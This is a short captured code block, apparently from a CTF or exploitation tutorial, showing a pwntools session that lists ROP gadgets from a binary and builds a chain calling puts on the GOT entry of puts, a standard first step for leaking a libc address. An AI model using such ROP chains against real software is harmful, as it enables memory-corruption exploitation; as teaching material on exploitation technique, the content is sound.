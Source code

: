 ```shell
 4197250: Gadget(0x400b82, ['pop r15', 'ret'], ['r15'], 0x10),
 4197243: Gadget(0x400b7b, ['pop rbp', 'pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r12', 'r13', 'r14', 'r15'], 0x30),
 4197247: Gadget(0x400b7f, ['pop rbp', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r14', 'r15'], 0x20),
 4196168: Gadget(0x400748, ['pop rbp', 'ret'], ['rbp'], 0x10),
 4197251: Gadget(0x400b83, ['pop rdi', 'ret'], ['rdi'], 0x10),
 4197249: Gadget(0x400b81, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18),
 4197245: Gadget(0x400b7d, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28),
 4195910: Gadget(0x400646, ['ret'], [], 0x8)}

 >>> rop.puts(elf.got['puts'])

>>> hex(elf.got['puts'])
'0x602018'

>>> print(hexdump(bytes(rop)))
00000000  83 0b 40 00  00 00 00 00  18 20 60 00  00 00 00 00  │··@·│····│· `·│····│
00000010  60 06 40 00  00 00 00 00                            │`·@·│····│
00000018

>>> print(rop.dump())
0x0000:         0x400b83 pop rdi; ret
0x0008:         0x602018 [arg0] rdi = got.puts
0x0010:         0x400660 puts

>>> rop.chain()
b'\x83\x0b@\x00\x00\x00\x00\x00\x18 `\x00\x00\x00\x00\x00`\x06@\x00\x00\x00\x00\x00'

>>> ','.join([hex(i) for i in rop.chain()])
'0x83,0xb,0x40,0x0, 0x0,0x0,0x0,0x0, 0x18,0x20,0x60,0x0, 0x0,0x0,0x0,0x0, 0x60,0x6,0x40,0x0 ,0x0,0x0,0x0,0x0'
# 64bits little endian
# 0x00000000 0x00400b83
# 0x00000000 0x00602018
# 0x00000000 0x00400660
```